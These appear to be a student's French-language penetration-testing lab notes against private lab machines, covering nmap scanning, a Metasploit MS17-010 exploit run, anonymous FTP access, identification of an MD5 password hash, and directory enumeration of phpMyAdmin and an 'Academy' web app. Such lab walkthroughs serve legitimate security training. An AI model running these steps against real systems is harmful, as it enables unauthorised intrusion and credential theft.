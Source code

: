 é
* Mise à jour du réseau sur les deux machines
* nmap -sV -Pn @adressip
![[Pasted image 20240110104032.png]]

![[Pasted image 20240110104056.png]]


![[Pasted image 20240110104347.png]]
https://www.runecast.com/blog-posts/cve-2022-26809-ms-rpc-vulnerability-explained-and-covered

> msfconsole  
msf5 > search ms17–010


![[Pasted image 20240110110844.png]]
use 0
show options
SET RHOST 10.111.0.134
exploit
![[Pasted image 20240110111440.png]]


# Academy

* Mise en place du réseau

![[Pasted image 20240110114811.png]]

![[Pasted image 20240110115517.png]]

* vsftpd 3.0.3 
 https://www.cvedetails.com/vulnerability-list/vendor_id-10990/product_id-19703/version_id-384234/Cerberusftp-Ftp-Server-3.0.3.html?page=1&order=1&trc=4&sha=0592d650635fc9c2bf04429a700f818782d23b9e*
telnet 10.0.2.118
anonymous
anonymous
dir
get note.txt

![[Pasted image 20240110132424.png]]
cd73502828457d15655bbd7a63fb0bc8 est le password 
hash-identifier -h
cd73502828457d15655bbd7a63fb0bc8
MD5
![[Pasted image 20240110135422.png]]

connexion : 10201321
mdp : student

dirb http://10.0.2.118/
http://10.0.2.118/phpmyadmin/ChangeLog

On remarque pleins de patch à fix
![[Pasted image 20240110140053.png]]

http://10.0.2.118/phpmyadmin/robots.txt 
rien

http://10.0.2.118/phpmyadmin/README
![[Pasted image 20240110140705.png]]

Version 4.9.7 rien de spécial

http://10.0.2.118/academy/
10201321
student
student1
![[Pasted image 20240110143416.png]]
 

* Open vssf 
* 
 https://www.google.com/search?q=Openssh+7.9p1+debian+CVE&sca_esv=597175834&rlz=1C1ONGR_frFR1070FR1070&sxsrf=ACQVn0-045AIZl68-l7lIHmgaGIniSwQSA%3A1704884586745&ei=anmeZdqPLcjhkdUPo52c-AM&ved=0ahUKEwja7LOB1tKDAxXIcKQEHaMOBz8Q4dUDCBE&uact=5&oq=Openssh+7.9p1+debian+CVE&gs_lp=Egxnd3Mtd2l6LXNlcnAiGE9wZW5zc2ggNy45cDEgZGViaWFuIENWRTIIEAAYgAQYogQyCBAAGIAEGKIEMggQABiABBiiBEi6CFDgA1i8B3ABeAGQAQCYAW-gAZICqgEDMi4xuAEDyAEA-AEBwgIKEAAYRxjWBBiwA8ICBRAhGKAB4gMEGAAgQYgGAZAGCA&sclient=gws-wiz-serp*
* Apache vulnerabilities
https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-613554/Apache-Http-Server-2.4.38.html

dirb http://10.0.2.118/
